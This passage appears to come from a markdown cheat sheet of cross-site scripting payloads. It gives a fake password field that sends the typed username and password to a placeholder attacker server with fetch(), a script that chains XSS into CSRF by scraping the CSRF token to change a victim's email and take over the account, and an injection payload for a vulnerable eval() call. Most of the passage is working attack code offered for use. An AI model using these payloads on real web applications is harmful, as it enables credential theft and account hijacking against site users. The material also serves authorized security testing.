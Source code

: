 
```javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://ATTACKER-SERVER',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

<br>

### Use XSS to perform CSRF

* Inject the following payload in the vulnerable target application to force a user into changing their email address to test@test.com.  This can be combined with a "Forgot Password" function to take over a user's account.


```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

<br><br>

## More Exploitation Payloads and Examples

* Here below will be some more example payloads that were used for testing purposes to exfiltrate data, etc.  Particularly payloads that are not just using the alert(1) proof-of-concept.

<br>

* Vulnerable code:  Our payload is included into in eval() function.  The response type where our payload is reflected is in JSON body.

```javascript
if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
}
```


* Payload:  The application is escaping the quotations but not the backslash character.

```javascript
\"-alert(1)}//
```

